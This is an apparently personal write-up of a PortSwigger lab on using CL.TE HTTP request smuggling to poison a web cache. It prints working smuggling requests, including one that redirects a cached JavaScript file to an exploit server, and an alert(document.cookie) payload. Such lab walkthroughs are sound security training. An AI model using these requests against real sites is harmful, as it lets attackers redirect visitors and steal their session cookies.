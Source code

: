 # Exploiting HTTP request smuggling to perform web cache poisoning | Feb 24, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning), you'll learn: Exploiting HTTP request smuggling to perform web cache poisoning! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.

To solve the lab, perform a request smuggling attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server. The poisoned cache should alert `document.cookie`.

> Note:
>  
> The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224191509.png)

In here, we can test for HTTP request smuggling.

First, we need to determine which headers are the web application is using. For example, CL.TE (Front-end uses `Content-Length` header, back-end uses `Transfer-Encoding` header) or TE.CL (Front-end uses `Transfer-Encoding` header, back-end uses `Content-Length` header).

- CL.TE:

**Attack request:**
```http
POST / HTTP/1.1
Host: 0adc005a0496944fc115647b0019000a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X-Foo: x
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224191828.png)

Normal request:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224191838.png)

As you can see, our normal request's response returns a 404 status code, which means **the web application is vulnerable to CL.TE HTTP request smuggling**!

But how can we escalate that vulnerability even futher??

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224192047.png)

If you look at the HTTP history, ***everything that unders `/resources/*` can be cached!***

In the home page, we can also view other posts:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224193125.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224193140.png)

In the bottom of those posts, there's a link which can view the next post.

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224193241.png)

When we clicked on that link, it'll send a GET request to `/post/next` with parameter `postId`.

Then, it'll redirect us to the next post.

Hmm... It seems like the host is dynamically generated?

**Let's try to change the `Host` header to anything:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224193540.png)

Nope.

**Then try it via HTTP request smuggling:**
```http
POST / HTTP/1.1
Host: 0adc005a0496944fc115647b0019000a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: test.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

smuggled=yes
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224193717.png)

When we sent the second request, the web application respond with our smugged request (`/post/next?postId=3`), and ***redirected to `test.com` host***!

Armed with above information, if we can leverage HTTP request smuggling to perform web cache poisoning, we can basically redirect users to anywhere!

- Create and host the payload in the exploit server:

**Payload:**
```js
alert(document.cookie);
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224194151.png)

- Poison the cache:

First, we need to smuggle our redirect request, then poison the `/resources/js/tracking.js`, which will then import our evil payload.

**Smuggling request:**
```http
POST / HTTP/1.1
Host: 0adc005a0496944fc115647b0019000a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 189
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: exploit-0a9000af0467940ec17b62bc01be0092.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

smuggled=yes
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224194543.png)

**Cache poisoning request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224194722.png)

Now, the victim should see the following alert box:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224194757.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224194805.png)

# What we've learned:

1. Exploiting HTTP request smuggling to perform web cache poisoning